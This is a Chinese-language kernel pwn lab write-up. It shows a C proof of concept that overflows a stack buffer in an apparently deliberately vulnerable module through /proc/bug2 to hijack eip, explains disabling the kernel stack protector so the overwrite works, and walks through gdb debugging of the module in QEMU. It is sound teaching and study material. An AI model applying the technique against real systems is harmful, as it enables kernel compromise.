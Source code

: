# Poc

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[24] = {0};
    memset(buf, 'A', 24);
    *((void **)(buf + 20)) = 0x42424242;
    int fd = open("/proc/bug2", O_WRONLY);
    write(fd, buf, sizeof(buf));
    return 0;
}
```

由于之前编译时开启了 stack protect ，直接执行 poc 会造成 kernel panic，需重新编译内核，编辑内核目录下的
`.config` 文件，关闭 CONFIG_CC_STACKPROTECTOR 选项，然后重新编译，再次运行 poc 发现成功劫持 `eip`。

![poc2]({{ site.baseurl }}/images/poc2.png)

# Debug

调试注意事项：

模块在加载进内核后，并没有作为vmlinux的一部分传给gdb，因此必须通过某种方法把模块信息传给gdb。
`add-symbol-file`命令就是用来把模块的详细信息传给gdb的。
由于模块也是一个ELF文件，需要知道模块的 `.text`、`.bss`、`.data` 节区地址。
模块stack_smashing.ko的这三个信息分别保存在 `/sys/module/stack_smashing/sections/.text`、
`/sys/module/stack_smashing/sections/.bss` 和 `/sys/module/stack_smashing/sections/.data`，
由于 `stack_smashing` 模块没有bss、data节区，所以只需指定text即可。 

调试过程：

在 qemu 中设置好 gdbserver，找到模块的 `.text` 节区地址：

```bash
/ # grep 0 /sys/module/stack_smashing/sections/.text 
0xc8815000
```

在主机的linux-2.6.32目录中用gdb连接：

```bash
gd@ubuntu:~/pwn/kernel/linux-2.6.32$ gdb vmlinux
...

gdb-peda$ target remote :1234
Remote debugging using :1234
Warning: not running or target is remote
0xc100946b in __monitor (edx=0x0, ecx=0x0, eax=0xc162e000 <__kstrtab_inet_sendmsg+6>)
    at /home/user/linux-2.6.32/arch/x86/include/asm/processor.h:740
    740 /home/user/linux-2.6.32/arch/x86/include/asm/processor.h: No such file or directory.
gdb-peda$ add-symbol-file ../stack_smashing/stack_smashing.ko 0xc8815000
add symbol table from file "../stack_smashing/stack_smashing.ko" at
    .text_addr = 0xc8815000
    Reading symbols from ../stack_smashing/stack_smashing.ko...done.
    gdb-peda$ b bug2_write 
    Breakpoint 1 at 0xc8815000: file /home/user/Desktop/stack_smashing/stack_smashing.c, line 6.
    gdb-peda$ c
    Continuing.

```